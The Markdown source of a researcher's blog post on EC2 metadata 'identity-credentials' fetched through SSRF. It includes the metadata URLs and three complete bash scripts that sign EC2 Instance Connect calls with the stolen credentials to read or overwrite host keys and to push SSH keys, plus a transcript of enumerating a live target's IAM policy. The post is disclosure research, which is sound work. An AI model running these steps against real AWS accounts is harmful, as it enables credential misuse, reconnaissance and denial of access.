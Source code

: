 ```yaml
---
layout: post
title: AWS Metadata Identity-Credentials Research
subtitle: What do these creds do anyway?
permalink: /AWS-Metadata-Identity-Credentials
---
```


One of the most common ways to escalate an SSRF in an AWS Cloud environment is the (mis)use of the AWS Metadata API. This API allows for the vulnerable EC2 Machine to gain access to information about itself by accessing an HTTP API at the `http://169.254.169.254`. The normal route is to hit `http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLENAME` and utilize the IAM credentials returned to escalate via the AWS CLI. However, if the EC2 instance in question was not launched with an IAM role associated with it, escalation via this method becomes much more difficult. The endpoint `http://169.254.169.254/latest/user-data/` is also useful for escalation, but it does not always contain sensitive information. After running into this situation a couple times, I decided to start poking around the AWS Metadata API in search of more endpoints which may reveal sensitive information. One of the interesting endpoints I discovered is `http://169.254.169.254/latest/meta-data/identity -credentials/ec2/security-credentials/ec2-instance`. This endpoint returns a set of odd IAM credentials described by the [AWS Documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-categories.html) as:
> [Reserved for internal use only] The credentials that AWS uses to identify an instance to the rest of the Amazon EC2 infrastructure.

After reading this I decided to do a bit more research into this endpoint and see if we could use this to affect the target's infrastructure. **In short**, these credentials can be used to extract sensitive information if the AWS Organization is misconfigured and can be potentially used for DoS in some scenarios. Unfortunately these credentials were not as helpful as I hoped, but I wanted to outline the process I used in my research so that if anyone else wants to do more research on the topic, they will have a head start. 

## Purpose
The purpose of the aforementioned credentials are to assist with the setup of EC2 Instance Connect. This can be deduced from their usage in AWS's [aws-ec2-instance-connect-config repo](https://github.com/aws/aws-ec2-instance-connect-config/blob/32d7656adbf5f4b59f9aacd519b545dcedec7fe1/src/bin/eic_harvest_hostkeys#L119) on GitHub. The credentials are used in various places throughout the repo to authenticate the script to the AWSEC2InstanceConnectService.
```
creds=$(eval "${curl_cmd} http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance/")
if [ $? -ne 0 ] ; then
    # We failed to load instance-identity credentials
    exit 255
fi
AWS_ACCESS_KEY_ID=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"AccessKeyId" : "\(.*\)",/\1/p')
AWS_SECRET_ACCESS_KEY=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"SecretAccessKey" : "\(.*\)",/\1/p')
AWS_SESSION_TOKEN=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"Token" : "\(.*\)",/\1/p')
...
canonicalHeaders="host:${host}\nx-amz-date:${isoTimestamp}\nx-amz-security-token:${AWS_SESSION_TOKEN}\n"
...
signingKey=$(getsigv4key "${AWS_SECRET_ACCESS_KEY}" "${isoDate}" "${region}" "ec2-instance-connect")
...
authorizationHeader="AWS4-HMAC-SHA256 Credential=${AWS_ACCESS_KEY_ID}/${credentialScope}, SignedHeaders=${signedHeaders}, Signature=${signature}"

/usr/bin/curl -X POST -H "Content-Encoding: amz-1.0" -H "Authorization: ${authorizationHeader}" -H "Content-Type: application/json" -H "x-amz-content-sha256: ${payloadHash}" -H "x-amz-date: ${isoTimestamp}" -H "x-amz-security-token: ${AWS_SESSION_TOKEN}" -H "x-amz-target: com.amazon.aws.sshaccessproxyservice.AWSEC2InstanceConnectService.PutEC2HostKeys" -d "${val}" "${endpoint}/PutEC2HostKeys/"
```
In the script, we see that the application sends the server's SSH Host Keys to the AWSEC2InstanceConnectService, assumedly for the purpose of validating that the server being authenticated to is who it says it is. With this, several questions came into my mind:
1. Can these credentials be used elsewhere?
2. Can these credentials be used to DoS access to the box via EC2 Instance Connect?
3. Can we submit HostKeys for any EC2 Instance in the org using these "Internal Only" Credentials?

These are the questions that I will attempt to answer below.

It is also interesting to note that the account which is associated with the credentials at this endpoint technically has an invalid name:
```
{
    "UserId": "[REDACTED]:aws:ec2-instance:i-[REDACTED]",
    "Account": "[REDACTED]",
    "Arn": "arn:aws:sts::[REDACTED]:assumed-role/aws:ec2-instance/i-[REDACTED]"
}
```
The role name is always `aws:ec2-instance` and the session name is always the instanceId associated with this EC2 instance. However, according to the [AWS Documentation](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-resource-iam-role.html#cfn-iam-role-rolename), the RoleName should never contain the `:` character. This is an invalid name role name. This makes me wonder if there are any other `aws:` roles which we might be able to get access to which may grant escalated permissions.  

## AWSEC2InstanceConnectService API Functions
After researching the AWSEC2InstanceConnectService, I was able to identify 3 different endpoints on this API:
* GetEC2HostKeys
* PutEC2HostKeys
* SendSSHPublicKey

### GetEC2HostKeys
This endpoint in the AWSEC2InstanceConnectService API is used to retrieve existing host keys from the machine. Unfortunately, host keys are normally public information, so this is not a substantial leap. I did, however, consider that these host keys could be used to identify the backend host behind a WAFed asset. This would be done by taking the target's host key and using something like Shodan to scan the internet for services utilizing the same keys. The following script loads the output of `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance/` (which should be placed `/tmp/creds`) and attempts to extract the host's host keys.

I'll also note that I checked this endpoint for IDOR via the `InstanceId` parameter as well and noted that it was not vulnerable. 

<details><summary>Click here for the script</summary>
<pre>
#!/bin/bash
creds=$(cat /tmp/creds)
if [ $? -ne 0 ] ; then
    # We failed to load instance-identity credentials
    exit 255
fi
export AWS_ACCESS_KEY_ID=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"AccessKeyId" : "\(.*\)",/\1/p')
export AWS_SECRET_ACCESS_KEY=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"SecretAccessKey" : "\(.*\)",/\1/p')
export AWS_SESSION_TOKEN=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"Token" : "\(.*\)",/\1/p')
echo "Attempting to access the Host Keys based off of the following credentials: "
aws sts get-caller-identity
unset creds
domain="amazonaws.com"
region="us-east-1"
instance=$(aws sts get-caller-identity | jq .Arn | cut -f 3 -d "/" | sed 's/"//g')
account=$(aws sts get-caller-identity | jq .Account | sed 's/"//g')

val='{"AccountID":"'${account}'","AvailabilityZone":"'us-east-1a'","InstanceId":"'${instance}'"}'

sign () {
    /usr/bin/printf "${2}" | /usr/bin/openssl dgst -binary -hex -sha256 -mac HMAC -macopt hexkey:"${1}" | /bin/sed 's/.* //'
}

getsigv4key () {
    local base=$(/bin/echo -n "AWS4${1}" | /usr/bin/od -A n -t x1 | /bin/sed ':a;N;$!ba;s/[\n ]//g')
    local kdate=$(sign "${base}" "${2}")
    local kregion=$(sign "${kdate}" "${3}")
    local kservice=$(sign "${kregion}" "${4}")
    sign "${kservice}" "aws4_request"
}

clearcreds () {
    unset AWS_SESSION_TOKEN
    unset AWS_SECRET_ACCESS_KEY
    unset AWS_ACCESS_KEY_ID
}
trap clearcreds EXIT

host="ec2-instance-connect.${region}.${domain}"
endpoint="https://${host}"

timestamp=$(/bin/date -u "+%Y-%m-%d %H:%M:%S")
isoTimestamp=$(/bin/date -ud "${timestamp}" "+%Y%m%dT%H%M%SZ")
isoDate=$(/bin/date -ud "${timestamp}" "+%Y%m%d")

canonicalQuery="" # We are using POST data, not a querystring
canonicalHeaders="host:${host}\nx-amz-date:${isoTimestamp}\nx-amz-security-token:${AWS_SESSION_TOKEN}\n"
signedHeaders="host;x-amz-date;x-amz-security-token"

payloadHash=$(/bin/echo -n "${val}" | /usr/bin/sha256sum | /bin/sed 's/\s.*$//')

canonicalRequest="$(/usr/bin/printf "POST\n/GetEC2HostKeys/\n%s\n${canonicalHeaders}\n${signedHeaders}\n%s" "${canonicalQuery}" "${payloadHash}")"
requestHash=$(/bin/echo -n "${canonicalRequest}" | /usr/bin/sha256sum | /bin/sed 's/\s.*$//')

credentialScope="${isoDate}/${region}/ec2-instance-connect/aws4_request"
toSign="AWS4-HMAC-SHA256\n${isoTimestamp}\n${credentialScope}\n${requestHash}"
signingKey=$(getsigv4key "${AWS_SECRET_ACCESS_KEY}" "${isoDate}" "${region}" "ec2-instance-connect")
signature=$(sign "${signingKey}" "${toSign}")

authorizationHeader="AWS4-HMAC-SHA256 Credential=${AWS_ACCESS_KEY_ID}/${credentialScope}, SignedHeaders=${signedHeaders}, Signature=${signature}"

curl -i -X POST -H "Content-Encoding: amz-1.0" -H "Authorization: ${authorizationHeader}" -H "Content-Type: application/json" -H "x-amz-content-sha256: ${payloadHash}" -H "x-amz-date: ${isoTimestamp}" -H "x-amz-security-token: ${AWS_SESSION_TOKEN}" -H "x-amz-target: com.amazon.aws.sshaccessproxyservice.AWSEC2InstanceConnectService.GetEC2HostKeys" -d "${val}" "${endpoint}/GetEC2HostKeys/"
</pre>
</details>

### PutEC2HostKeys
This endpoint in the AWSEC2InstanceConnectService API is used to upload host keys to EC2 Instance Connect. According to the documentation in the [aws-ec2-instance-connect-config repo](https://github.com/aws/aws-ec2-instance-connect-config/blob/32d7656adbf5f4b59f9aacd519b545dcedec7fe1/README.md#host-key-harvesting), these keys are: 
>necessary to establish trust for the EC2 Console for the console's one-click in-browser ssh terminal feature.

However, after attempting to corrupt these keys by sending invalid keys to AWS, I received varied results. My notes from tests performed several months ago indicated that DoS via this method was possible, but I am currently unable to reproduce. This indicates that either AWS has shifted away from this model of authentication with EC2 Instance Connect, or that my previous tests were corrupted in some way. Either way, AWS does not seem to be validating host keys as it mentions in the documentation above, which is slightly concerning. This gives us a bit of a shaky answer to `Can these credentials be used to DoS access to the box via EC2 Instance Connect?`. 

I also attempted to use this endpoint to upload host keys to different EC2 Host Keys within the organization. I did this by modifying the POST data sent in the final request on line 18 of the below script. When a different InstanceID was provided to the API, the API successfully validated the InstanceId against the session name and did not allow access to other EC2 Instances. This answers the above question about `Can we submit HostKeys for any EC2 Instance in the org using these "Internal Only" Credentials?`. 

If anyone else wishes to perform additional research on this functionality, the below bash script will allow one send host keys to EC2 Instance Connect using the creds in `/tmp/creds`.  
<details><summary>Click here for the script</summary>
<pre>
#!/bin/bash
creds=$(cat /tmp/creds)
if [ $? -ne 0 ] ; then
    # We failed to load instance-identity credentials
    exit 255
fi
export AWS_ACCESS_KEY_ID=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"AccessKeyId" : "\(.*\)",/\1/p')
export AWS_SECRET_ACCESS_KEY=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"SecretAccessKey" : "\(.*\)",/\1/p')
export AWS_SESSION_TOKEN=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"Token" : "\(.*\)",/\1/p')
echo "Attempting to upload Host Keys based off of the following credentials: "
aws sts get-caller-identity
unset creds
domain="amazonaws.com"
region="us-east-1"
instance=$(aws sts get-caller-identity | jq .Arn | cut -f 3 -d "/" | sed 's/"//g')
account=$(aws sts get-caller-identity | jq .Account | sed 's/"//g')

val='{"AccountID":"'${account}'","AvailabilityZone":"us-east-1a","HostKeys":["ssh-rsa AAAAB3NzaC1yc2EAAAADAQABLAHBLAH test@test.com"],"InstanceId":"'${instance}'"}'

sign () {
    /usr/bin/printf "${2}" | /usr/bin/openssl dgst -binary -hex -sha256 -mac HMAC -macopt hexkey:"${1}" | /bin/sed 's/.* //'
}

# Derive a sigv4 signing key for the given secret
# get_sigv4_key [key] [datestamp] [region name] [service name]
getsigv4key () {
    local base=$(/bin/echo -n "AWS4${1}" | /usr/bin/od -A n -t x1 | /bin/sed ':a;N;$!ba;s/[\n ]//g')
    local kdate=$(sign "${base}" "${2}")
    local kregion=$(sign "${kdate}" "${3}")
    local kservice=$(sign "${kregion}" "${4}")
    sign "${kservice}" "aws4_request"
}

clearcreds () {
    unset AWS_SESSION_TOKEN
    unset AWS_SECRET_ACCESS_KEY
    unset AWS_ACCESS_KEY_ID
}
trap clearcreds EXIT

# Generate, sign, and send the sigv4 request
host="ec2-instance-connect.${region}.${domain}"
endpoint="https://${host}"

timestamp=$(/bin/date -u "+%Y-%m-%d %H:%M:%S")
isoTimestamp=$(/bin/date -ud "${timestamp}" "+%Y%m%dT%H%M%SZ")
isoDate=$(/bin/date -ud "${timestamp}" "+%Y%m%d")

canonicalQuery="" # We are using POST data, not a querystring
canonicalHeaders="host:${host}\nx-amz-date:${isoTimestamp}\nx-amz-security-token:${AWS_SESSION_TOKEN}\n"
signedHeaders="host;x-amz-date;x-amz-security-token"

payloadHash=$(/bin/echo -n "${val}" | /usr/bin/sha256sum | /bin/sed 's/\s.*$//')

canonicalRequest="$(/usr/bin/printf "POST\n/PutEC2HostKeys/\n%s\n${canonicalHeaders}\n${signedHeaders}\n%s" "${canonicalQuery}" "${payloadHash}")"
requestHash=$(/bin/echo -n "${canonicalRequest}" | /usr/bin/sha256sum | /bin/sed 's/\s.*$//')

# Derive the signature
credentialScope="${isoDate}/${region}/ec2-instance-connect/aws4_request"
toSign="AWS4-HMAC-SHA256\n${isoTimestamp}\n${credentialScope}\n${requestHash}"
signingKey=$(getsigv4key "${AWS_SECRET_ACCESS_KEY}" "${isoDate}" "${region}" "ec2-instance-connect")
signature=$(sign "${signingKey}" "${toSign}")

authorizationHeader="AWS4-HMAC-SHA256 Credential=${AWS_ACCESS_KEY_ID}/${credentialScope}, SignedHeaders=${signedHeaders}, Signature=${signature}"

curl -i -X POST -H "Content-Encoding: amz-1.0" -H "Authorization: ${authorizationHeader}" -H "Content-Type: application/json" -H "x-amz-content-sha256: ${payloadHash}" -H "x-amz-date: ${isoTimestamp}" -H "x-amz-security-token: ${AWS_SESSION_TOKEN}" -H "x-amz-target: com.amazon.aws.sshaccessproxyservice.AWSEC2InstanceConnectService.PutEC2HostKeys" -d "${val}" "${endpoint}/PutEC2HostKeys/"

</pre>
</details>


### SendSSHPublicKey
This endpoint in the AWSEC2InstanceConnectService API is used to temporarily upload SSH Public Keys to the `~/.ssh/authorized_keys` file on a filesystem. Hoping that the AWS devs got sloppy and allowed these internal credentials access to `AWSEC2InstanceConnectService.*`, I created the below script to check and see if this internal user has permissions to push SSH Public Keys to machines. Unfortunately, the permissions are limited by default to `AWSEC2InstanceConnectService.PutEC2HostKeys` and `AWSEC2InstanceConnectService.GetEC2HostKeys` and we are greeted with a firm `Access Denied` when we attempt this. If you're interested in poking at this function, feel free to use the script below. 
<details><summary>Click here for the script</summary>
<pre>
#!/bin/bash
creds=$(cat /tmp/creds)
if [ $? -ne 0 ] ; then
    # We failed to load instance-identity credentials
    exit 255
fi
AWS_ACCESS_KEY_ID=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"AccessKeyId" : "\(.*\)",/\1/p')
AWS_SECRET_ACCESS_KEY=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"SecretAccessKey" : "\(.*\)",/\1/p')
AWS_SESSION_TOKEN=$(/bin/echo "${creds}" | /bin/sed -n 's/.*"Token" : "\(.*\)",/\1/p')
echo "Attempting to upload Public Keys based off of the following credentials: "
aws sts get-caller-identity
unset creds
domain="amazonaws.com"
region="us-east-1"
instance=$(aws sts get-caller-identity | jq .Arn | cut -f 3 -d "/" | sed 's/"//g')
account=$(aws sts get-caller-identity | jq .Account | sed 's/"//g')

val='{"AvailabilityZone":"us-east-1a","InstanceId":"'${instance}'","InstanceOSUser":"ubuntu","SSHPublicKey":"ssh-rsa AAAAB3NzaC1yValidKeyHere test@test.com"}'

sign () {
    /usr/bin/printf "${2}" | /usr/bin/openssl dgst -binary -hex -sha256 -mac HMAC -macopt hexkey:"${1}" | /bin/sed 's/.* //'
}

# Derive a sigv4 signing key for the given secret
# get_sigv4_key [key] [datestamp] [region name] [service name]
getsigv4key () {
    local base=$(/bin/echo -n "AWS4${1}" | /usr/bin/od -A n -t x1 | /bin/sed ':a;N;$!ba;s/[\n ]//g')
    local kdate=$(sign "${base}" "${2}")
    local kregion=$(sign "${kdate}" "${3}")
    local kservice=$(sign "${kregion}" "${4}")
    sign "${kservice}" "aws4_request"
}

clearcreds () {
    unset AWS_SESSION_TOKEN
    unset AWS_SECRET_ACCESS_KEY
    unset AWS_ACCESS_KEY_ID
}
trap clearcreds EXIT

# Generate, sign, and send the sigv4 request
host="ec2-instance-connect.${region}.${domain}"
endpoint="https://${host}"

timestamp=$(/bin/date -u "+%Y-%m-%d %H:%M:%S")
isoTimestamp=$(/bin/date -ud "${timestamp}" "+%Y%m%dT%H%M%SZ")
isoDate=$(/bin/date -ud "${timestamp}" "+%Y%m%d")

canonicalQuery="" # We are using POST data, not a querystring
canonicalHeaders="host:${host}\nx-amz-date:${isoTimestamp}\nx-amz-security-token:${AWS_SESSION_TOKEN}\n"
signedHeaders="host;x-amz-date;x-amz-security-token"

payloadHash=$(/bin/echo -n "${val}" | /usr/bin/sha256sum | /bin/sed 's/\s.*$//')

canonicalRequest="$(/usr/bin/printf "POST\n/SendSSHPublicKey/\n%s\n${canonicalHeaders}\n${signedHeaders}\n%s" "${canonicalQuery}" "${payloadHash}")"
requestHash=$(/bin/echo -n "${canonicalRequest}" | /usr/bin/sha256sum | /bin/sed 's/\s.*$//')

# Derive the signature
credentialScope="${isoDate}/${region}/ec2-instance-connect/aws4_request"
toSign="AWS4-HMAC-SHA256\n${isoTimestamp}\n${credentialScope}\n${requestHash}"
signingKey=$(getsigv4key "${AWS_SECRET_ACCESS_KEY}" "${isoDate}" "${region}" "ec2-instance-connect")
signature=$(sign "${signingKey}" "${toSign}")

authorizationHeader="AWS4-HMAC-SHA256 Credential=${AWS_ACCESS_KEY_ID}/${credentialScope}, SignedHeaders=${signedHeaders}, Signature=${signature}"

curl -i -X POST -H "Content-Encoding: amz-1.0" -H "Authorization: ${authorizationHeader}" -H "Content-Type: application/json" -H "x-amz-content-sha256: ${payloadHash}" -H "x-amz-date: ${isoTimestamp}" -H "x-amz-security-token: ${AWS_SESSION_TOKEN}" -H "x-amz-target: com.amazon.aws.sshaccessproxyservice.AWSEC2InstanceConnectService.SendSSHPublicKey" -d "${val}" "${endpoint}/SendSSHPublicKey/"
</pre>
</details>

### Access to Other Functions
Using [ScoutSuite by NCCGroup](https://github.com/nccgroup/ScoutSuite), I attempted to enumerate permission for this user within the organizations. I was unable to find anything of interest in a default configuration. However, in one of the live targets I was attacking, I was able to pull the organization's password policy using this user:
```
┬─[justin@parrot:~/t/S/s/scoutsuite-results]─[03:02:21 PM]─[G:master=]
╰─>$ aws iam get-account-password-policy                                                                                                     

{
    "PasswordPolicy": {
        "MinimumPasswordLength": 25,
        "RequireSymbols": false,
        "RequireNumbers": true,
        "RequireUppercaseCharacters": true,
        "RequireLowercaseCharacters": false,
        "AllowUsersToChangePassword": true,
        "ExpirePasswords": false,
        "PasswordReusePrevention": 10,
        "HardExpiry": false
    }
}
┬─[justin@parrot:~/t/S/s/scoutsuite-results]─[03:02:25 PM]─[G:master=]
╰─>$ aws sts get-caller-identity                                                                                             
{
    "UserId": "[REDACTED]:aws:ec2-instance:i-[REDACTED]",
    "Account": "[REDACTED]",
    "Arn": "arn:aws:sts::[REDACTED]:assumed-role/aws:ec2-instance/i-[REDACTED]"
}
```
This leads me to believe that there is the possibility for other functions to be made accessible to this user through IAM policies. After discussing this with [@SpaceRaccoonSec](https://twitter.com/spaceraccoonsec), our best guess on why this was happening is that there is a sub organization set up in AWS in which all user's are provided access to the `IAM.GetAccountPasswordPolicy` permission. This means that if the target's AWS organization is set up in such a way that all user's are given X permission, that permission will also be given to this AWS user. Because of this, I'd recommend that anyone attempting to escalate privileges using this method run these credentials through ScoutSuite as there may be additional permissions available to this user. This provides an answer to the question: `Can these credentials be used elsewhere?`. 


## Conclusion
In conclusion, these credentials are not tremendously helpful. They can be used in some situations to break the "trust" between the AWS Console's in-browser SSH client and the target server, and also to extract information about the target AWS organization in some misconfigurations. I am writing this blog post to let researchers know to always run these creds through ScoutSuite and perhaps to spur further research in this area in the future. 
